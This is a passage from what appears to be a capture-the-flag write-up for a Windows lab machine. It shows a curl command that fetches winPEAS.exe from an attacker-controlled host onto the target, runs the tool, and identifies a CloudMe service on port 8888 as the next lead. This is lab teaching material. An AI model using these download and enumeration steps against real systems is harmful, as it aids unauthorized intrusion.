 ```bash
[Target windows system]curl -o winPEAS.exe http://[OURIP]/winPEAS.exe
```
![pythonclient](https://github.com/0xLJoseb/Apuntes/blob/main/Buff%20Writeup/Content%26/pythonclient.PNG)
![pythonserver](https://github.com/0xLJoseb/Apuntes/blob/main/Buff%20Writeup/Content%26/pythonserver.PNG)

Once we got the WinPEAS in the target machine, we are going to execute it with the command:
```cmd
winPEAS.exe
```

We can see something interesting in the winPEAS.exe output 
![winpeas](https://github.com/0xLJoseb/Apuntes/blob/main/Buff%20Writeup/Content%26/winpeas.PNG)
a "C:\Users\shaun\Downloads\Cloudme_1112.exe"

¿What is Cloudme? [https://en.wikipedia.org/wiki/CloudMe]

We can think that if the user "shaun" downloaded the CloudMe software, this service may be running on the machine.
How can we check this?
We can do a "CloudMe default port" search and we can see that:
_"CloudMe Sync is a synchronization application that synchronizes your local storage with cloud storage, and is listening on port 8888"_
